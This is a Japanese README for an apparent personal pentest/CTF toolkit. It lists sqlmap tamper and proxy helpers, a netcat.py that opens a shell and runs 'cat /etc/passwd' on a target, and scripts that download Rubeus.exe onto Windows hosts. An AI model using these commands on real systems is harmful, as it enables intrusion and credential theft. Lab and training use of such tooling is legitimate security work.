 # side_tool
個人的ハックツールに付与できる拡張機能コードリスト

## sqlmap_basic_auth.py
sqlmapコマンドのBasic Auth Base64 Request拡張機能コード
<br/>
コマンド例
```
sqlmap -r ./req --tamper=./sqlmap_basic_auth.py --ignore-code=401 --level 5 --risk 3
```
リクエスト例
```
#req
GET http://example.htb/ HTTP/1.1
Content-Length: 0

...
Authorization: Basic *
```
## sqlmap_websocket.py
websocketのプロトコルを介したsqlmapの実行。プロキシ`localhost:8081`を建て、そこからSQLi対象へwebsocket送ります。
<br/>
コマンド例
```
# websocketインストール
pip install websockets

# プロキシ起動
python3 sqlmap_websocket.py

# sqlmap実行
sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```

## http2grpc.go
gRPCのPort50051のPort向けにgrpcurlコマンドを使ってペイロードを送信するHTTPプロキシツール。
<br/>
```
# grpcurl インストール
$ go install github.com/fullstorydev/grpcurl/cmd/grpcurl@latest

# go mod整理
$ go mod init sqlmap/grpc
$ go mod tidy

# 起動
$ go run http2grpc.go

# sqlmap実行
sqlmap -u "http://localhost:8051/?id=1" --batch --dump
```
## netcat.py
Python環境が存在（ほぼある）するターゲットで簡易的に足場を構築するためのもの

```
# 対話型コマンドシェルの起動
netcat.py -t 10.11.14.13 -p 4444 -l -c
# ファイルのアップロード
netcat.py -t 10.11.14.13 -p 4444 -l -u=mytest.whatisup
# コマンドの実行
netcat.py -t 10.11.14.13 -p 4444 -l -e=\"cat /etc/passwd\"
# 通信先サーバーの135番ポートに文字列を送信
echo 'ABCDEFGHI' | ./netcat.py -t 10.11.14.13 -p 135
# サーバーに接続
netcat.py -t 10.11.14.13 -p 4444
```
## windows_wget_script
Windows標準で組み込まれているスクリプト言語を使ってWgetを実行する物

コマンド例：
```
#Javascript
cscript.exe /nologo wget.js hxxp://10.11.14.13/Rubeus.exe Rubeus.exe

#VBS
cscript.exe /nologo wget.vbs hxxp://10.11.14.13/Rubeus.exe Rubeus.exe
```
